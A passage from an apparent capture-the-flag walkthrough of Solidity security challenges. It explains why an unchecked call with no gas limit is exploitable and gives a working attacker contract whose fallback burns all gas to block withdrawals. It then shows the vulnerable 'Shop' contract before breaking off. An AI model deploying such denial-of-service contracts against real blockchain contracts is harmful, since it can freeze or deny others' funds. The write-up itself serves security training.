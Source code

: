 ```solidity

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
A call is made to the partner's address, and then transfer to owner. We cannot use revert to stop the execution since call just returns the data. Here its not being validated so the output from the call doesn't change the behaviour of the further code. But here the gas limit is not specified in the call. So in order to stop the execution we could simply use all the available gas, which eventually stops the code execution due to out of gass error. 

> #### Solution
> We know that storing data in the storage is expensive, we use up all the gas by doing the same thing. 
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> contract denExp {
>     uint j = 0;
>     uint g = 0;
>     fallback() external payable {
>         uint p = 10;
>         for (uint i = 11; i > p ; i++) {
>             j = j + 1;
>             g = g ** i;
>         }
>     }
> }
>  ```
 
<hr>

## 21 Shop
We need to set the price to lower from its original value.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
